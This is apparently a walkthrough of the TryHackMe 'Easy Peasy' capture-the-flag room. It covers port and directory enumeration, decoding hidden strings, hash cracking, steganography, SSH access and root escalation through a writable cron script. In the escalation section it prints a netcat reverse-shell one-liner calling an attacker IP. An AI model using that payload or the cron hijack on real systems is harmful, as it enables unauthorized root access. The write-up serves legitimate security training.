# 💀 Easy Peasy — Walkthrough

🔗 **TryHackMe Room:** [Easy Peasy CTF](https://tryhackme.com/room/easypeasyctf)

```diff
> enumerate everything • trust nothing • verify everything
```

---

## 🧠 Enumeration

### Nmap Scan

```bash
nmap -Pn -A -p- <target> -v
```



Multiple ports were discovered, including non-standard high ports.

👉 Insight:
Always scan the full port range — interesting services often hide outside common ports.

---

## 🌐 Web Enumeration

### Directory Discovery

```bash
gobuster dir -u http://<target> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



A hidden directory was discovered.



Further enumeration revealed additional content:





👉 Insight:
Initial results may seem empty — always continue enumeration.

---

## 🔍 Source Code Analysis

Encoded data was found in the HTML source:



The string was identified as Base64 and decoded.

A hash was also discovered in `robots.txt`:



It looks like an MD5 hash...



👉 Insight:
Always check:

* source code
* robots.txt
* hidden directories

---

## 🔐 Service Enumeration

A web service running on a high port exposed additional data:



Sensitive information was found in the source code:


Another encoded value was identified in the source:



The encoding was not Base64. After further analysis, it appeared to be Base62.  
Once decoded, it revealed a hidden endpoint: /n0th1ng3ls3m4tt3r




👉 Insight:
When encoding is unclear, test multiple formats (Base64, Base62, etc.).

---

## 🧩 Hidden Path Discovery

The decoded value revealed a hidden directory:



Inspecting the page source revealed additional data:



A SHA-256 hash was discovered:



The hash was cracked using a wordlist:

```bash
john --wordlist=easypeasy.txt hash.txt
```



👉 Insight:
Use context-specific wordlists when available.

---

## 🖼️ Steganography

A suspicious image was identified in the source code of the hidden endpoint: /n0th1ng3ls3m4tt3r


Extraction was attempted using steghide, but a passphrase was required:

```bash
steghide extract -sf binarycodepixabay.jpg
```




The passphrase was then recovered using stegseek:

```bash
stegseek <image> easypeasy.txt
```



The extraction was successful and revealed a hidden file:



👉 Insight:
Steganography often relies on weak or guessable passphrases — wordlists can be highly effective.

---

## 🔑 Credential Discovery

The extracted content revealed credentials:

* username
* binary-encoded password

The binary-encoded password was decoded to plaintext.



👉 Insight:
Encoding layers are often stacked — always decode step by step.

---

## 🔐 Initial Access

```bash
ssh -p <port> boring@<target>
```



The user flag was obfuscated using ROT13:



👉 Insight:
Simple obfuscation techniques are commonly used.

---

## ⬆️ Privilege Escalation

### Sudo Check

```bash
sudo -l
```



The user could not run sudo.

---

### Cron Job Enumeration

```bash
cat /etc/crontab
```



A script executed as root was identified:

```
/var/www/.mysecretcronjob.sh
```

---

### Exploitation

The script was writable and modified to include a reverse shell:

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip> 4444 >/tmp/f
```



Listener:

```bash
nc -lvnp 4444
```

---

### Root Access

The cron job executed the payload, resulting in a root shell:



👉 Insight:
Writable scripts executed by root = critical privilege escalation vector.

---

## 🧠 Final Thoughts

This room highlights:

* importance of deep enumeration
* value of source code inspection
* multiple encoding layers
* real-world misconfigurations (cron jobs + writable scripts)

---

```diff
> enumeration creates opportunities • understanding leads to access
```
